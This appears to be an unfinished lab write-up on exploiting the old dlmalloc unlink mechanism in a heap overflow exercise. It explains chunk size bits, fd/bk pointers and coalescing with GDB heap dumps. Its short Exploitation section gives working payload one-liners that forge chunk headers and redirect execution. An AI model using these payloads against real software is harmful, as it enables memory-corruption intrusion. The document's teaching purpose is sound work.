






## Foreword

## Setting up GDB
```bash
set disassembly-flavor intel
set pagination off
b *main+16
b *main+32
b *main+48
b *main+76
b *main+100
b *main+124
b *main+136
b *main+148
b *main+160
b *main+172
```

After the first breakpoint or first malloc call, we can do `info proc map` to see where does the heap located:

```bash
define hook-stop
x/60wx 0x804c000
x/2i $eip
end
```

## First `malloc` call, b *main+32


## Second `malloc` call, b *main+48



## Third `malloc` call, b *main+76



## `strcpy` call, main+136
Our command line arguments need to be three, and we will try give 8 bytes for each `argv`s. 
```bash
(gdb) r AAAABBBB CCCCDDDD EEEEFFFF
```

We can just jump into the last `strcpy` call



## `free` call, main+177

Same as `free` call, we can just jump into the last `free` call:


1. First we free the `c`, and it got replaced with `0x00000000`.
2. Second we free the `b`, and it got replaced with `0x0804c050` which is just a pointer that points to that address.
3. Third we free the `a`, and it got replaced with `0x0804c028` which is just a pointer that points to that address.

The question is why such things like that happen? Why it got replaced with pointer when we were freeing some heap memory allocated? So after this simple GDB exploration from now on we will take a look deeper inside of the malloc algorithm it self.


## Heap Chunk Explanation In Detail

We are looking at the metadata of heap chunks managed by `glibc`'s memory allocator (`ptmalloc`). When memory is allocated or freed on the heap, `glibc` keeps track of each memory chunk using a structure that contains information about its size, status, and linkage to other chunks. The **three least significant bits** of the `size` field have special meanings, rather than being part of the actual size:

1. **PREV_INUSE (0x1)**: The lowest bit indicates whether the **previous chunk** is in use.
2. **IS_MMAPPED (0x2)**: The second least significant bit indicates if the chunk is memory-mapped (`mmap`-ed).
3. **NON_MAIN_ARENA (0x4)**: The third least significant bit is generally unused in standard heap allocations, but it indicates if the chunk belongs to a thread-specific heap arena in multi-threaded applications.

Let’s break down what each of these bits represents in more detail:

### Chunk Size Field and Its Special Attributes

In `glibc`'s heap management, each chunk of memory has a `size` field that contains the size of the chunk, including the metadata. However, since the allocator aligns chunks to 8-byte boundaries (on 32-bit systems) or 16-byte boundaries (on 64-bit systems), the lower three bits of the `size` field are always zero for actual size calculations. These three bits are repurposed to store metadata attributes:

#### 1. **PREV_INUSE (0x1)**
- **Purpose**: Indicates whether the **previous chunk** is currently allocated (in use) or not.
- **Value**: `0x1` when the previous chunk **is in use**, `0x0` when it **is free**.
- **Usage**: This is critical for heap management because if the previous chunk is free, the allocator needs to coalesce (merge) adjacent free chunks into a single larger chunk to reduce fragmentation.
- **Example**: If the `size` field of a chunk is `0x21`, this means the actual size is `0x20` (32 bytes), and the `PREV_INUSE` bit is set (`0x1`). This tells the allocator that the previous chunk is **allocated**.

#### 2. **IS_MMAPPED (0x2)**
- **Purpose**: Indicates that the chunk is allocated using `mmap` rather than the usual heap `malloc` mechanism.
- **Value**: `0x2` if the chunk is `mmap`-ed, `0x0` otherwise.
- **Usage**: `mmap` is used for large memory allocations (typically more than 128 KB) and is managed differently from regular `malloc` chunks. These chunks are not part of the heap but have their own memory pages.
- **Example**: If the `size` field of a chunk is `0x42`, this means the actual size is `0x40` (64 bytes), and the `IS_MMAPPED` bit is set (`0x2`). This tells the allocator that the chunk is managed via `mmap`.

#### 3. **NON_MAIN_ARENA (0x4)**
- **Purpose**: Indicates that the chunk belongs to a non-main arena. This is relevant in multi-threaded programs where each thread can have its own heap arena.
- **Value**: `0x4` if the chunk belongs to a non-main arena, `0x0` otherwise.
- **Usage**: In multi-threaded environments, different arenas prevent contention on a single heap lock by providing each thread with its own arena. This bit helps the allocator determine which arena the chunk belongs to.
- **Example**: If the `size` field of a chunk is `0x85`, this means the actual size is `0x80` (128 bytes), and both the `PREV_INUSE` and `NON_MAIN_ARENA` bits are set (`0x5`). This tells the allocator that the previous chunk is in use, and the current chunk is part of a non-main arena.

### Practical Example of `size` Field Manipulation

Consider the following example to illustrate how these bits are set:

- **Chunk A (allocated)**:
  - `size = 0x21`
  - **Explanation**: The actual size of the chunk is `0x20` (32 bytes), and the `PREV_INUSE` bit (`0x1`) is set, indicating that the previous chunk is in use.

- **Chunk B (free)**:
  - `size = 0x30`
  - **Explanation**: The actual size of the chunk is `0x30` (48 bytes), and the lower three bits are `0`. This indicates that the previous chunk is free.

- **Chunk C (allocated with `mmap`)**:
  - `size = 0x102`
  - **Explanation**: The actual size of the chunk is `0x100` (256 bytes), and the `IS_MMAPPED` bit (`0x2`) is set, indicating that this chunk was allocated with `mmap`.

### Importance in Heap Exploitation

These bits play a crucial role in heap exploitation:

1. **PREV_INUSE Bit**: Attackers may attempt to manipulate this bit to trick the allocator into coalescing chunks incorrectly, potentially leading to a memory corruption or control hijacking situation.

2. **IS_MMAPPED Bit**: While usually not directly exploitable in typical heap exploitation scenarios, understanding its presence helps identify large allocations that are handled differently.

3. **NON_MAIN_ARENA Bit**: Understanding this bit is essential in multi-threaded programs where arena management might differ, but it is more relevant in advanced heap exploits.

The lower three bits of the chunk size field in `glibc`'s memory allocator (`ptmalloc`) have special meanings:
- `PREV_INUSE`: Indicates if the previous chunk is in use.
- `IS_MMAPPED`: Indicates if the chunk is allocated via `mmap`.
- `NON_MAIN_ARENA`: Indicates if the chunk belongs to a non-main heap arena.

These bits are crucial for efficient heap management and have important implications in the context of heap exploitation techniques.

### A Glimpse of `dlmalloc` Source Code
```c
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;
};
```

## Understanding the `fd` and `bk` pointers
### Understanding the Heap Layout

After the last `free(a)` call in your program, we are examining the heap memory using GDB. The heap memory layout reflects how `malloc` and `free` manage memory chunks, especially when chunks are freed.

Here is the memory layout you provided after the last `free(a)`:

```bash
0x804c000:	0x00000000	0x00000029	0x0804c028	0x42424242
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x0804c050	0x44444444	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x46464646
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
```

### Breakdown of the Heap Chunks

#### Chunk Structure
Each chunk on the heap has a structure as illustrated below:

```
         +----------------------------------+
chunk -> | prev_size                        |  <-- Only present if the previous chunk is free
         +----------------------------------+
         | size                             |  <-- Size of the current chunk (including metadata)
         +----------------------------------+
mem -> | fd (if free) / data (if allocated)|
         +----------------------------------+
         | bk (if free)                      |
         +----------------------------------+
         | (data or padding)                 |
         :                                  :
```

For a free chunk:
- `fd` (forward pointer) points to the next free chunk in the doubly linked list.
- `bk` (backward pointer) points to the previous free chunk in the doubly linked list.

#### Analysis of the Memory Contents

1. **Chunk A (at `0x804c000`)**
   - **`0x804c000`:** `0x00000000` (possibly `prev_size` for a different context)
   - **`0x804c004`:** `0x00000029` (size of the chunk, 0x29 or 41 bytes)
   - **`0x804c008`:** `0x0804c028` (forward pointer `fd` pointing to the next free chunk at `0x804c028`)
   - **`0x804c00c`:** `0x42424242` ('BBBB' in ASCII, some data left in the chunk)

   This chunk is `a`, which was just freed. Its `fd` pointer (`0x0804c028`) points to the next free chunk `b`.

2. **Chunk B (at `0x804c028`)**
   - **`0x804c028`:** `0x0804c050` (forward pointer `fd` pointing to the next free chunk at `0x804c050`)
   - **`0x804c02c`:** `0x44444444` ('DDDD' in ASCII, some data left in the chunk)

   This is chunk `b`, which has been freed before chunk `a`. Its `fd` pointer points to chunk `c`.

3. **Chunk C (at `0x804c050`)**
   - **`0x804c050`:** `0x00000000` (`fd` pointer, set to `NULL` since it is the last chunk in the free list)
   - **`0x804c054`:** `0x46464646` ('FFFF' in ASCII, probably some data left in the chunk)

   This is chunk `c`, the first chunk to be freed. Since there are no more free chunks after this, its `fd` pointer is `0`.

### Conclusion: Understanding `fd` and `bk` in the Example

In our GDB examination:

1. **Address `0x804c008` (`fd` of chunk `a`) points to `0x0804c028` (`b`)**:
   - After freeing `a`, the allocator updates `a`'s `fd` to point to the next free chunk `b` (`0x0804c028`), creating a link in the free list.

2. **Address `0x804c030` (`fd` of chunk `b`) points to `0x0804c050` (`c`)**:
   - After freeing `b`, its `fd` pointer points to `c` (`0x0804c050`), the next free chunk.

3. **Address `0x804c058` (`fd` of chunk `c`) points to `0x0`**:
   - Since `c` is the last chunk in the list, its `fd` pointer is `NULL` (or `0`), indicating the end of the free list.

### Key Takeaway

The `fd` (forward) pointer helps the allocator manage a list of free chunks by linking each free chunk to the next one. The `bk` (backward) pointer would be used similarly to link to the previous chunk if needed, but in this case, the `bk` pointers are not shown or needed since we're looking only at the forward links. Understanding how these pointers work is crucial for heap exploitation, as manipulating them can allow for attacks such as arbitrary memory write or control flow hijacking.

## Practical Example Of Coalescing Chunks

> Once we free() the chunk, using free(mem), some checks take place and the memory is released. If its neighbour blocks are free, too (checked using the PREV_INUSE flag), they will be merged to keep the number of reuseable blocks low, but their sizes as large as possible. If a merge is not possible, the next chunk is tagged with a cleared PREV_INUSE bit, and the chunk changes a bit:
> ```
>              +----------------------------------+
>     chunk -> | prev_size                        |
>              +----------------------------------+
>              | size                             |
>              +----------------------------------+
>       mem -> | fd                               |
>              +----------------------------------+
>              | bk                               |
>              +----------------------------------+
>              | (old memory, can be zero bytes)  |
>              :                                  :
> nextchunk -> | prev_size ...                    |
>              :                                  :
> ```
> You can see that there are two new values, where our data was previously stored (at the 'mem' pointer). Those two values, called 'fd' and 'bk' - forward and backward, that is, are pointers. They point into a double linked list of unconsolidated blocks of free memory. Every time a new free is issued, the list will be checked, and possibly unconsolidated blocks are merged. The whole memory gets defragmented from time to time to release some memory. 
> 
> Since the malloc size is always at least 8 bytes, there is enough space for both pointers. If there is old data remaining behind the 'bk' pointer, it remains unused until it gets malloc'd again. (recited from: https://phrack.org/issues/57/9.html)


When the author say, **"If its neighbor blocks are free,"** it refers to the adjacent memory chunks on the heap — the **previous** and **next** chunks relative to the current chunk being freed — that may also be in a **free** state. If these neighboring chunks are also free, the memory allocator will attempt to **merge** (or **coalesce**) them to form a larger contiguous block of free memory. 

### Understanding Neighboring Chunks

On the heap, memory chunks are stored consecutively, one after another. When we free a chunk of memory using `free(ptr)`, the allocator checks the chunks that are directly **before** (previous) and **after** (next) the current chunk in memory to determine if they are also free. If either or both are free, the allocator will coalesce them into a single larger chunk to optimize memory usage.

### Why Coalescing is Important

1. **Reducing Fragmentation**: Coalescing helps to reduce **heap fragmentation** by combining smaller free chunks into larger ones. Fragmentation can cause inefficient memory usage because, although there is enough free memory overall, there may not be a single sufficiently large contiguous block to satisfy a new allocation request.
   
2. **Creating Larger Reusable Chunks**: Combining smaller chunks into larger chunks makes them more useful for future `malloc` requests that require a larger memory allocation.

### The Role of the `PREV_INUSE` Flag

Like we know alredy to determine whether the **previous** chunk is free, the allocator uses the **`PREV_INUSE`** flag, which is the least significant bit (LSB) of the current chunk's `size` field:

- **PREV_INUSE bit set (`1`)**: Indicates that the **previous** chunk is in use (allocated).
- **PREV_INUSE bit cleared (`0`)**: Indicates that the **previous** chunk is **free**.

### Scenario: Merging Neighboring Chunks

Here's how the process works:

1. **Freeing a Chunk**: When a chunk is freed using `free()`, the allocator checks the `PREV_INUSE` bit of the **current chunk** to determine if the **previous chunk** is also free.
   
2. **Check the Next Chunk**: It then checks the metadata of the **next chunk** to see if it is free. The `size` field of the next chunk can help determine this since free chunks contain pointers to the next and previous free chunks (used in the **free list**).

3. **Coalescing Chunks**:
   - **If both neighboring chunks are free**: The allocator merges the current chunk with both the previous and next chunks to form a larger chunk.
   - **If only one neighboring chunk is free**: The allocator merges the current chunk with that free chunk (either previous or next).
   - **If neither neighboring chunk is free**: The allocator does not merge the chunks and simply marks the current chunk as free.

4. **Update the `PREV_INUSE` Bit**:
   - **If the next chunk is not free**, the allocator **clears** the `PREV_INUSE` bit in the next chunk's `size` field. This indicates that the chunk **before it** is now free (since we've just freed it).

### Practical Example

TODO: include a picture illustrations

Let’s consider a more concrete example to visualize the process:

- **Initial Setup**:
  ```
  Chunk A: [allocated]
  Chunk B: [allocated]
  Chunk C: [allocated]
  ```

- **State after `free(B)`**:
  ```
  Chunk A: [allocated]
  Chunk B: [free]
  Chunk C: [allocated]
  ```
  - At this point, `Chunk B` is marked as free. Its `size` field is updated to reflect that `Chunk A` is allocated (`PREV_INUSE = 1`).

- **State after `free(A)`**:
  ```
  Chunk A: [free]
  Chunk B: [free]
  Chunk C: [allocated]
  ```
  - Now, `Chunk A` is freed. Since `Chunk B` is already free, the allocator will merge `Chunk A` and `Chunk B` into a single larger free chunk.

- **After Coalescing**:
  ```
  Merged Chunk (A+B): [free]
  Chunk C: [allocated]
  ```
  - The merged chunk combines the memory of `Chunk A` and `Chunk B`. The `size` field for this chunk will be the total size of `A` + `B`. The `PREV_INUSE` bit in `Chunk C`'s metadata is cleared, indicating that its previous chunk (now `A+B`) is free.

So when `free()` is called, if **neighboring chunks** (previous or next) are also **free**, the allocator merges them to create a larger contiguous block of free memory. This is checked using the **`PREV_INUSE`** bit and metadata of adjacent chunks. This merging process reduces fragmentation, improves memory management efficiency, and maintains larger reusable blocks of memory.

```c
/* Take a chunk off a bin list */
#define unlink(P, BK, FD) {                                            
  FD = P->fd;                                                          
  BK = P->bk;                                                          
  FD->bk = BK;                                                         
  BK->fd = FD;                                                         
}
```


## Exploitation
failed
```
set {int}0x804c054=100
set {int}0x804c050=0x10
set {int}0x804c044=0x11
set {int}0x804c048=0x804b128-0x12
set {int}0x804c04c=0x804c010
```

success
```bash
python -c "print('B'*36+'\x65')" > /tmp/b
(gdb) r AAAAAAAAAAAA `cat /tmp/b` CCCCCCCCCCCC

python -c "print('C'*92+'\xfc\xff\xff\xff\xfc\xff\xff\xff'+'\x1c\xb1\x04\x08'+'\x08\xc0\x04\x08')" > /tmp/c

python -c "print('\xB8\x64\x88\x04\x08\xFF\xD0')" > /tmp/a


```

## Some Oddness Thing

## Resources
anonymous. *Once upon a free()*. https://phrack.org/issues/57/9.html.

LiveOverflow. *The Heap: Once upon a free() - bin 0x17*
. https://www.youtube.com/watch?v=gL45bjQvZSU&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=30.

LiveOverflow. *The Heap: dlmalloc unlink() exploit - bin 0x18*
. https://www.youtube.com/watch?v=HWhzH--89UQ&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=32.